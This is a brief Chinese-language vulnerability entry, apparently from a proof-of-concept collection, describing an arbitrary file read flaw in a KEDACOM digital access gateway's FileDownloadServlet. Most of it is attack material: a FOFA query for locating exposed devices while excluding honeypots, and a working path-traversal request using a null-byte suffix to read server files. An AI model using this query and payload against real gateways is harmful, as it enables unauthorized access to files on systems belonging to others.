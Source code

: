 # KEADCOM 数字系统接入网关任意文件读取漏洞


KEADCOM 数字系统接入网关 FileDownloadServlet 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件。


fofa：

```
(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)
```

poc：

```
http://target//gatewayweb/FileDownloadServlet?fileName=pq.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2

```

ref：

https://poc.shuziguanxing.com/#/publicIssueInfo#issueId=3969